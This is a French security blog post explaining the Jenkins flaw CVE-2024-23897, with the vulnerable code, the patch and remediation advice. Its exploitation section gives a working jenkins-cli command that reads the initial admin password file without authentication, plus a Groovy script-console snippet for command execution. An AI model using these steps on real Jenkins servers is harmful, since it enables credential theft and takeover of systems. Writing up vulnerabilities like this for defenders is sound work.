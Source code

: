 ```yaml
---
title: "Compromettre Jenkins via une simple lecture de fichiers : CVE-2024-23897"
description: "Cette article détaille comment avec une simple vulnérabilité décelée fin janvier 2024, un attaquant serait en mesure de compromettre des instances Jenkins."
date: 2024-02-01T11:47:21+01:00
draft: false
images: [/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png]
featuredImage: "/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png"
featuredImagePreview: "/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png"
tags: ["Test d'intrusion", "Pentest", "Audit"]
---
```


# 💣 D'une petite erreur verbeuse à une compromission complète

## A l'origine

Le **25 janvier 2024**, des chercheurs de chez Sonar publient 2 vulnérabilités concernant le leader des logiciels d'intégration et de déploiement continus open-source (CI/CD) : **Jenkins**.

Jenkins joue un rôle central dans **l'automatisation des processus** de développement logiciel pour une grande partie de l'industrie, avec une part de marché d'environ **44% en 2023**. L'impact potentiel de ces vulnérabilités est donc **considérable**.

La faille la plus préoccupante, identifiée sous le nom de **CVE-2024-23897**, permet à des attaquants non authentifiés de lire des données limitées de fichiers arbitraires et à des attaquants autorisés "en lecture seule" d'accéder à l'intégralité d'un fichier sur le serveur Jenkins.

Deux vulnérabilités sont expliquées :

- La vulnérabilité **CVE-2024-23897** :
    - Un score CVSS de **9.8/10** (assez préoccupant) 😮
    - Un attaquant anonyme est en mesure de lire une partie limitée de fichiers locaux.
- La vulnérabilité **CVE-2024-23898** :
    - Un score CVSS de 8.8/10
    - Permet à un attaquant d'exécuter des commandes CLI arbitraires en incitant une victime à cliquer sur un lien malveillant (CSRF).

## En bref

La vulnérabilité la plus problématique est la première : **CVE-2024-23897**

- Les attaquants non authentifiés peuvent lire **les premières lignes de fichiers locaux** présents sur le serveur.
- Les attaquants authentifiés en lecture seule peuvent accéder à l'intégralité des fichiers.
- Il est possible de transformer cette vulnérabilité en RCE de plusieurs manières :
    - En lisant contenant le mot de passe par défaut
    - En elevant ses privilèges en tant qu'admin
    - En lisant une clef SSH
    - En récupérant des secrets sur la machine
    - Etc...

Jenkins donne d'autres moyens pour obtenir une execution de commande directement sur son blog : https://www.jenkins.io/security/advisory/2024-01-24/

## Exploitation

Pour exploiter la première vulnérabilité, le PoC est assez facile. 

### Docker vulnérable

Il est possible de tester avec des versions vulnérables via `Docker`.

```bash
docker pull jenkins/jenkins:2.440-jdk17
docker run  -p 8080:8080 jenkins/jenkins:2.440-jdk17
```

### Environnement

Il faut commencer par récupérer l'utilitaire de Jenkins `jenkins-cli.jar` en ligne de commande.

```sh
wget http://localhost:8080/jnlpJars/jenkins-cli.jar
```

![Installation des outils](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-2.png)

### Code vulnérable

Le code ci-dessous détaille le code vulnérable.

La fonction vérifie si l'argument commence par le caractère `@`, et si c'est le cas, lit le fichier dans le chemin après le `@` et créée un nouvel argument pour chaque ligne.


```java
private String[] expandAtFiles(String args[]) throws CmdLineException {
    List<String> result = new ArrayList<String>();
    for (String arg : args) {
        if (arg.startsWith("@")) {
            File file = new File(arg.substring(1));
            if (!file.exists())
                throw new CmdLineException(this,Messages.NO_SUCH_FILE,file.getPath());
            try {
                result.addAll(readAllLines(file));
            } catch (IOException ex) {
                throw new CmdLineException(this, "Failed to parse "+file,ex);
            }
        } else {
            result.add(arg);
        }
    }
    return result.toArray(new String[result.size()]);
}
```

Cela signifie que si un attaquant peut contrôler un argument, il peut l'étendre à un certain nombre d'arguments à partir d'un fichier arbitraire sur l'instance Jenkins.

De ce fait, l'exploitation de la fonction `expandAtFiles()` de `arg4j` affichant une erreur verbeuse lors de la tentative de lecture du fichier est possible.

### Lecture arbitraire...

La commande ci-dessous permet à un utilisateur **non authentifié** de récupérer la première ligne du fichier `/var/jenkins_home/secrets/initialAdminPassword`

```sh
java -jar jenkins-cli.jar -noCertificateCheck -s http://127.0.0.1:8080 who-am-i "@/var/jenkins_home/secrets/initialAdminPassword"
```

![Lecture de fichiers arbitraires](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-3.png)

### ...vers RCE

Il est donc possible de récupérer le mot de passe par défaut de l'administrateur si ce dernier n'a pas été changé.

![Capture du mot de passe administrateur](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-4.png)


Il est ensuite possible de se connecter sur `/script` pour exécuter nos commandes. 

![Execution de commande](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-1.png)

Le code ci-dessous permet d'exécuter la commande `/bin/id`.

```groovy
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

Pour terminer, une démonstration est disponible juste en dessous !

## Actions recommandées

L'équipe de sécurité de Jenkins a corrigé la CVE-2024-23897 en ajoutant une configuration sécurisée désactivant la fonctionnalité `expandAtFiles`.

La ligne suivante est retirée :

```java
    return new CmdLineParser(this);
```

Et remplacé par les lignes suivantes :

```java
public static boolean ALLOW_AT_SYNTAX = SystemProperties.getBoolean(CLICommand.class.getName() + ".allowAtSyntax");
    // [...]
    ParserProperties properties = ParserProperties.defaults().withAtSyntax(ALLOW_AT_SYNTAX);
    return new CmdLineParser(this, properties);
```

La deuxième vulnérabilité `CVE-2024-23898`, conséquente direct de la première, a été corrigé en ajoutant une vérification de l'origine sur le mécanisme de WebSocket.

Patchez rapidement

## Démonstration

Démonstration avec les éléments détaillés ci-dessus.

<video src="/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/exploit.mp4" controls autoplay loop title="Exploitation de Jenkins" style="width:100%"></video>

## Sources

- https://www.jenkins.io/security/advisory/2024-01-24/#binary-files-note
- https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins/